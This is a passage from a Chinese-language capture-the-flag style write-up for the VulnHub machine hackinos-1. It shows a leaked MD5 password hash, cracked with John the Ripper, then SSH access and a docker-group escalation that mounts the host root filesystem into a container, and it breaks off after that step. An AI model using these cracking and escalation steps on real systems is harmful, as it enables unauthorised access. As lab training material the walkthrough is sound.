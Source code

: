 尝试查看其表的内容，发现了用户名和密码

```shell
hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e
```

尝试爆破密码

```shell
john -format=RAW-md5 ssh
```

![1553590036929](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553590036929.png)

成功找到，密码是123456

尝试连接该主机

```shell
ssh hummingbirdscyber@172.18.0.2
```

但是发现没有ssh这个命令，那么猜测这个用户名和密码可能是靶机的。直接从本地连接

```shell
ssh hummingbirdscyber@192.168.217.136
```

成功连接进入

## 内网主机提权



查看用户情况

```shell
 id
uid=1000(hummingbirdscyber) gid=1000(hummingbirdscyber) groups=1000(hummingbirdscyber),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker)
```

通过输出，看出来这个用户是docker组的。

查看docker的镜像

```shell
docker images
```

![1553590351163](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553590351163.png)

其中存在ubuntu镜像，那么，我们可以新建一个容器，将当前系统的根目录挂载到docker中，并进行查看

```shell
docker run -v /:/test -i -t ubuntu /bin/bash
```

![1553590841749](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553590841749.png)

可以看到，进入docker以后，存在一个test目录
